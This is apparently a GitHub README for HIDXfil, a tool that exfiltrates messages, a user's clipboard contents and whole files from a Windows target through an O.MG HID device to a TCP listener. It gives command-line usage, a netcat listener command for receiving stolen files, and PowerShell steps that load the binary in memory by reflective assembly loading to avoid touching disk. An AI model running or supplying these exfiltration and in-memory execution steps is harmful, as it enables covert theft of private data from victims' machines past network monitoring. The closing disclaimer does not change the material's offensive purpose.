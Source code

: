 # HIDXfil
**HIDXfil** is a tool designed to exfiltrate data through a Human Interface Device (HID). This can be useful for scenarios where traditional network-based exfiltration methods are restricted or monitored. This tool can send messages, clipboard content, or whole files to a specified USB device using its Vendor ID (VID) and Product ID (PID). **HIDXfil** is designed to work with HIDX StealthLink, a feature for [O.MG Elite devices](https://shop.hak5.org/collections/mischief-gadgets).

![hidxfil](https://github.com/user-attachments/assets/5f6eb9c3-48fa-41e8-b2ce-23d3aaf0ea04)

## Usage
I'm not planning on releasing binaries for HIDXfil, so you will have to compile yourself :)

The Usage of the provided project is pretty much self explanatory.
After successfully compiling the project, the binary can simply be used on a Windows Target system. 
```
 _   _ _____________   __  _____ _             _ _   _       _     _       _
| | | |_   _|  _  \ \ / / /  ___| |           | | | | |     | |   (_)     | |
| |_| | | | | | | |\ V /  \ `--.| |_ ___  __ _| | |_| |__   | |    _ _ __ | | __
|  _  | | | | | | |/   \   `--. \ __/ _ \/ _` | | __| '_ \  | |   | | '_ \| |/ /
| | | |_| |_| |/ // /^\ \ /\__/ / ||  __/ (_| | | |_| | | | | |___| | | | |   <
\_| |_/\___/|___/ \/   \/ \____/ \__\___|\__,_|_|\__|_| |_| \_____/_|_| |_|_|\_\

HID-Based Exfiltration Tool by Ø1phor1³

Usage: HIDXfil.exe /message <Message> /clipboard /vid <VendorID> /pid <ProductID> /chunksize <chunksize> /file <filepath>

Parameters:
  /message:   Specify the message to exfiltrate
  /clipboard: Exfiltrate the Users clipboard content
  /file:      Specify the file path to exfiltrate
  /vid:       Specify the Vendor ID of the target device (Optional - Default:D3C0)
  /pid:       Specify the Product ID of the target device (Optional - Default:D34D)
  /chunksize: Specify the chunk size for data transfer (Optional - Default:8)

Example: HIDXfil.exe /message "Hello World" /vid D3C0 /pid D34D /chunksize 8
```
A chunksize of 8 was set to ensure the best results. Changing this value may result in missing data and corrupted files.
Generally, any TCP Listener can be used to retreive the data sent by the O.MG device. 

Exfiltrating files is not as reliable as pure "text-based" input. Depending on size and filetype it may needs multiple tries and different chunk sizes.

Netcat may be your first choice: `nc -lvnp <port>` / `nc -lvnp <port> > example.file`

## Running HIDXfil Through PowerShell
While there are PowerShell scripts provoding exfiltration via HIDX StealthLink, **HIDXfil.exe** may introduce more functionalities. If you do want to run it through PowerShell though, considere the following steps:

If you want to run **HIDXfil** in-memory through a PowerShell wrapper, first compile **HIDXfil** and encode the resulting binary into base64:

`$base64 = [Convert]::ToBase64String([IO.File]::ReadAllBytes("<Path to .exe>"))`

**HIDXfil** can then be loaded in a PowerShell script with the following:

`$AssemblyLoad = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($base64))`

Afterwards, identify the entry point:

`$EntryPoint = $AssemblyLoad.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')`

Executing the loaded assembly then can be achieved like this (If you do need to define multiple arguments, seperate them via `,`):

`$EntryPoint.Invoke($null, (, [string[]] ('<Argument(s)>')))`


## Disclaimer
By using the provided code, you agree to the following terms:

1.  **No Warranty**: This code is provided "as is" without warranty of any kind, express or implied. The creator does not warrant that the provided code will be error-free or will meet your requirements or expectations.
    
2.  **Use at Your Own Risk**: You are solely responsible for the use of this code. The creator is not responsible for any damage, loss, or issues that may arise from using this script, including but not limited to loss of data, system malfunctions, or security vulnerabilities.
    
3.  **Compliance with Laws**: You agree to use this script in compliance with all applicable local, state, national, and international laws and regulations. The creator is not responsible for any illegal or unauthorized use of this code.
    
4.  **No Liability**: The creator shall not be liable for any direct, indirect, incidental, special, exemplary, or consequential damages.

By using this code, you acknowledge that you have read and understood this disclaimer and agree to be bound by its terms.
